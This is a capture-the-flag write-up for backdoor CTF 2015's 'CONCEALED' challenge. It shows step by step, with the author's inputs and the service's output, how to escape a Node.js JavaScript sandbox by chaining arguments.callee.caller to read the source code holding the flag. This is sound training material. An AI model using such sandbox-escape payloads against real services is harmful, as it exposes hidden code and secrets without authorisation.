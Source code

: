 # backdoor CTF 2015: [CONCEALED](https://backdoor.sdslabs.co/challenges/CONCEALED)

**Category:** Exploit
**Points:** 225
**Author:** [Amanpreet Singh](https://backdoor.sdslabs.co/users/apsdehal)
**Difficulty:** TODO
**Solves:** 24
**Description:**

* <https://backdoor.sdslabs.co/challenges/CONCEALED>

> All paths have been concealed. Get the hidden flag: `nc hack.bckdr.in 8005`. Submit sha-256 of the flag

## Write-up

Let’s connect to the service:

```bash
$ nc hack.bckdr.in 8005
######################################
####           CONCEAL            ####
######################################

Welcome to CONCEAL
You have access to object named sandboxed and its functions
Rest everything is sandboxed, don’t be a jerk and break something
Wrap your code in a function and return what you want as output
Flag is hidden somewhere in the code.
Get the flag :D!

home@jail:$
```

The welcome message reveals that the flag is hidden in the source code running the service. Some initial testing reveals it’s a JavaScript sandbox:

```
home@jail:$ sandboxed
TypeError: Property 'sandboxed' of object #<Object> is not a function

home@jail:$ function() { return sandboxed; }
[object Object]

home@jail:$ function() { return Object.keys(sandboxed); }
readFlag,print

home@jail:$ sandboxed.readFlag
flag: wrong_flag

home@jail:$ function() { return sandboxed.readFlag; }
function () {
  text = 'flag: wrong_flag';
  return text;
}

home@jail:$ sandboxed.print
undefined

undefined

home@jail:$ function() { return sandboxed.print; }
function (data) {
  sys.print(data + '\n' + '\n');
}
```

It’s possible to crash the application, which reveals a small part of the source code, but not the flag:

```
home@jail:$ function() { return this; }

/index.js:76
                sys.print(data + '\n');
                               ^
TypeError: Cannot convert object to primitive value
    at /index.js:76:20
    at /node_modules/prompt/lib/prompt.js:316:32
    at /node_modules/prompt/node_modules/utile/node_modules/async/lib/async.js:142:25
    at assembler (/node_modules/prompt/lib/prompt.js:313:9)
    at /node_modules/prompt/lib/prompt.js:322:32
    at /node_modules/prompt/lib/prompt.js:599:5
    at Interface.onLine (/node_modules/prompt/node_modules/read/lib/read.js:111:5)
    at Interface.emit (events.js:95:17)
    at Interface._onLine (readline.js:203:10)
    at Interface.<anonymous> (readline.js:323:12)
```

In JavaScript function contexts, `arguments.callee` refers to the currently executing function. As a result, `arguments.callee.caller` refers to the function that called the current one (i.e. one level up the call stack). This enables us to find out how the sandbox wraps our input:

```
home@jail:$ function() { return String(arguments.callee.caller); }
function () {return (function() { return String(arguments.callee.caller); })()}
```

So, our input gets wrapped in `function () {return ($INPUT)()}` and executed in a sandbox. But what is the `caller` of that function?

```
home@jail:$ function() { return String(arguments.callee.caller.caller); }
function () {
        if (!(this instanceof Script)) {
          throw new TypeError('invalid call to ' + f);
        }
        return ns[f].apply(ns, arguments);
      }
```

A-ha! We’re slowly revealing more and more source code, but no flag so far.  We need to go deeper!

Eventually we end up with the following payload which reveals the flag as part of a source code comment:

```
home@jail:$ function() { return String(arguments.callee.caller.caller.caller.caller.caller.caller.caller.caller.caller); }
function (err, line) {

    // flag : [redacted]

    if (err && wait === false) {
      return callback(err);
    }

    var against = {},
        numericInput,
        isValid;

    if (line !== '') {
      if (schema.properties[propName]) {
        var type = (schema.properties[propName].type || '').toLowerCase().trim() || undefined;

        //
        // Attempt to parse input as a float if the schema expects a number.
        //
        if (type == 'number') {
          numericInput = parseFloat(line, 10);
          if (!isNaN(numericInput)) {
            line = numericInput;
          }
        }

        //
        // Attempt to parse input as a boolean if the schema expects a boolean
        //
        if (type == 'boolean') {
          if(line === "true") {
            line = true;
          }
          if(line === "false") {
            line = false;
          }
        }

        //
        // If the type is an array, wait for the end. Fixes #54
        //
        if (type == 'array') {
          var length = prop.schema.maxItems;
          if (err) {
            if (err.message == 'canceled') {
              wait = false;
              stdout.write('\n');
            }
          }
          else {
            if (length) {
              if (tmp.length + 1 < length) {
                isValid = false;
                wait = true;
              }
              else {
                isValid = true;
                wait = false;
              }
            }
            else {
              isValid = false;
              wait = true;
            }
            tmp.push(line);
          }
          line = tmp;
        }
      }

      against[propName] = line;
    }

    if (prop && prop.schema.before) {
      line = prop.schema.before(line);
    }

    // Validate
    if (isValid === undefined) isValid = prompt._performValidation(name, prop, against, schema, line, callback);

    if (!isValid) {
      return prompt.getInput(prop, callback);
    }

    //
    // Log the resulting line, append this `property:value`
    // pair to the history for `prompt` and respond to
    // the callback.
    //
    logger.input(line.yellow);
    prompt._remember(propName, line);
    callback(null, line);

    // Make sure `tmp` is emptied
    tmp = [];
  }
```

Now that we have the flag, all that’s left to do is to hash it using SHA-256 so it can be submitted:

```bash
$ printf $flag | sha256sum
```

## Other write-ups and resources

* none yet
